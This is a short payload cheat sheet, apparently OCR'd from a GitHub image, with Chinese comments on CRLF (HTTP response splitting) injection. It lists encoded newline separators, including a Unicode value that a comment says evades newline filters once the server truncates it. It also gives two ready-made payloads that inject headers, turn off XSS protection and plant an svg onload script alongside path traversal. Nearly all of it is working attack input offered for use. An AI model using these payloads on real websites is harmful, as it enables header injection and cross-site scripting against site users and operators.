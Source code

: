 #clrf分隔符
%E5%98%8A%E5%98%8D ##比如说用户提交的是：%E5%98%8A，这个不包含换行符所以不会被拦截，服务器接收到后将其转成原始的unicode码：U+560A，最后取了0A，这时候就变成换行符了。
%0A%0D

#clrf成熟的payload
%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23%0d%0a<svg%20onload=alert(document.domain)>%0d%0a0%0d%0a/%2e%2e
%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23%0d%0a<svg%20onload=alert(document.domain)>%0d%0a0%0d%0a/%2f%2e%2e

